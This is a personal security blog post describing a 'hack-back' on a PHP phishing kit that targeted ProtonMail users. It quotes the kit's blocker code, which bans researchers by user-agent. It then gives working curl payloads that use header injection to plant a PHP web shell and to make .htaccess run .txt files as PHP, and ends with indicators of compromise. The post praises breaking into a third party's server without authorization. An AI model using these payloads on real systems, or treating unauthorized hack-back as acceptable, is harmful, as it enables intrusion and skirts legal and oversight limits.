 ```yaml
---
layout: post
title: "Hack-back: the tale of embarrassing phishing campaign"
date: 2020-01-14 00:00:00 -0000
categories: ['Ethical hacking', 'Privacy']
tags: [hack-back, phishing, PHP]
author: vavkamil
---
```


<hr>

<!-- wp:paragraph -->
<p>UPDATE: 17th January 2020: Another <a rel="noreferrer noopener" aria-label="landing page disabled (opens in a new tab)" href="https://www.reddit.com/r/ProtonMail/comments/eor72x/just_took_down_a_phishing_server_aimed_at/felm2ud" target="_blank">landing page disabled</a>.</p>
<!-- /wp:paragraph -->

<!-- wp:separator {"className":"is-style-wide"} -->
<hr class="wp-block-separator is-style-wide"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>UPDATE: 15th January 2020: I posted this to reddit.com/r/hacking and it seems like the mods didn't like it, they consider my blog post as a self-promotion and spam. Thank you!<br><em>You have been permanently banned from participating in r/hacking<br>You have been permanently banned from participating in r/ActLikeYouBelong<br>You have been permanently banned from participating in r/AskNetsec</em></p>
<!-- /wp:paragraph -->

<!-- wp:separator {"className":"is-style-wide"} -->
<hr class="wp-block-separator is-style-wide"/>
<!-- /wp:separator -->

<!-- wp:paragraph -->
<p>Today was a good day, I received a phishing email to by <a rel="noreferrer noopener" aria-label="Protonmail (opens in a new tab)" href="https://protonmail.com" target="_blank">Protonmail</a> address. I don't have a copy of the email, as I reported it and later deleted it as spam. Thankfully, other security research took screenshots yesterday:</p>
<!-- /wp:paragraph -->

<!-- wp:core-embed/twitter {"url":"https://twitter.com/d4rkm0de/status/1216740446178889729","type":"rich","providerNameSlug":"twitter"} -->
<figure class="wp-block-embed-twitter wp-block-embed is-type-rich is-provider-twitter"><div class="wp-block-embed__wrapper">
https://twitter.com/d4rkm0de/status/1216740446178889729
</div><figcaption>Credits to @d4rkm0de</figcaption></figure>
<!-- /wp:core-embed/twitter -->

<!-- wp:core-embed/twitter {"url":"https://twitter.com/vavkamil/status/1217173739676274689","type":"rich","providerNameSlug":"twitter"} -->
<figure class="wp-block-embed-twitter wp-block-embed is-type-rich is-provider-twitter"><div class="wp-block-embed__wrapper">
https://twitter.com/vavkamil/status/1217173739676274689
</div><figcaption>Figured I can do a write-up after the tweet</figcaption></figure>
<!-- /wp:core-embed/twitter -->

<!-- wp:paragraph -->
<p>The phishing mail was included a Bitly link (URL shortener). The nice thing about Bitly is that you can add a plus (+) character on the end of URL and it will show you how many people clicked the link and what is the location of redirect:</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":715,"sizeSlug":"large"} -->
<figure class="wp-block-image size-large"><img src="{{ '/assets/img/2020/01/image.png' | relative_url }}" alt="" class="wp-image-715"/><figcaption>https://bitly.com/2R1paP9+</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>More than 100 people clicked the link when I received the phishing email. I was a little bit bored, so I started poking around a little bit. I quickly found a directory listing with full source code:</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":716,"sizeSlug":"large"} -->
<figure class="wp-block-image size-large"><img src="{{ '/assets/img/2020/01/image-1.png' | relative_url }}" alt="" class="wp-image-716"/><figcaption>Prevent this by adding "Options -Indexes" to .htaccess</figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>The landing page was written in PHP, it was kinda a generic one, nothing unordinary, except a <code>blocker.php</code>file. It was a code to block security researchers and malware hunters based on IP ranges and user-agent strings. If any of the above matched, the IP was denied access in <code>.htaccess</code> and added to a file <code>badbot.txt</code> for a further investigation.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>The fourth line got my attention, as it was very unique:</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>$ipa = $_SERVER&#91;'HTTP_CLIENT_IP']? $_SERVER&#91;'HTTP_CLIENT_IP'] : ($_SERVER&#91;'HTTP_X_FORWARDE‌​D_FOR'] ? $_SERVER&#91;'HTTP_X_FORWARDED_FOR'] : $_SERVER&#91;'REMOTE_ADDR'] );
$useragent = $_SERVER&#91;'HTTP_USER_AGENT'];

if(isset($_POST&#91;'gotcha'])){
     blockBot($ipa);
}</code></pre>
<!-- /wp:code -->

<!-- wp:paragraph -->
<p>The thing in web security is, you should never trust user input. In this case, you can spoof both <code>HTTP_CLIENT_IP</code> and <code>HTTP_X_FORWARDED_FOR</code> headers.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>If you called the <code>blocker.php</code> script with a POST request and <code>gotcha</code> parameter, the IP address was blocked:</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>function blockBot($ip){
$bot = 'deny from '.$ip;
$myfile = file_put_contents('.htaccess', PHP_EOL.$bot.PHP_EOL , FILE_APPEND | LOCK_EX);
header('HTTP/1.0 404 Not Found');
die("&lt;h1>404 Not Found&lt;/h1>The page that you have requested could not be found.");
}</code></pre>
<!-- /wp:code -->

<!-- wp:paragraph -->
<p>If the user-agent matched any array value like <code>InfoSec, Kaspersky, ...</code>, the IP was added to <code>badbot.txt</code>:</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>foreach($bad as $zbal) {
    if(stripos($useragent,$zbal) !== false) {
        file_put_contents('badbot.txt', $ipa, FILE_APPEND | LOCK_EX);
        blockBot($ipa);
    }
}</code></pre>
<!-- /wp:code -->

<!-- wp:paragraph -->
<p>So I quickly figured out that I can insert PHP shell to <code>badbot.txt</code> and force .htaccess to execute .txt files as PHP. The trick from the 2000s used to hack insecure PHP uploads :)</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Inserting PHP web shell into <code>badbot.txt</code> (learned this one from <a rel="noreferrer noopener" aria-label="Sucuri (opens in a new tab)" href="https://blog.sucuri.net/2014/02/php-backdoors-hidden-with-clever-use-of-extract-function.html" target="_blank">Sucuri</a>):</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>curl $url/blocker.php -H "CLIENT-IP: &lt;?php extract($_REQUEST);$a($b); ?> " -H "User-agent: InfoSec"</code></pre>
<!-- /wp:code -->

<!-- wp:paragraph -->
<p>Forcing Apache to execute .txt as PHP via .htaccess:</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>curl $url/blocker.php -H "CLIENT-IP: \r\nAddType application/x-httpd-php .txt\r\n" -H "User-agent: google" --data "gotcha=1"</code></pre>
<!-- /wp:code -->

<!-- wp:paragraph -->
<p>This can be a very nice CTF challenge, full source-code here: <a rel="noreferrer noopener" aria-label="https://gist.github.com/vavkamil/b115ef829329f9fd3876c077e843641b (opens in a new tab)" href="https://gist.github.com/vavkamil/b115ef829329f9fd3876c077e843641b" target="_blank">https://gist.github.com/vavkamil/b115ef829329f9fd3876c077e843641b</a></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>In the end, I was able to take down the phishing infrastructure in less than 30 minutes, and maybe saved someone from a compromise. Mess with the best, die like the rest!</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Indicators of compromise (IoC):</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><li>urielsilveira[dot]com</li><li>keyword.tech.2017[at]gmail.com</li><li>alvinwalker247[at]gmail.com</li></ul>
<!-- /wp:list -->

<!-- wp:image {"id":719,"sizeSlug":"large"} -->
<figure class="wp-block-image size-large"><img src="{{ '/assets/img/2020/01/error_500.png' | relative_url }}" alt="" class="wp-image-719"/><figcaption>Phishing out of service</figcaption></figure>
<!-- /wp:image -->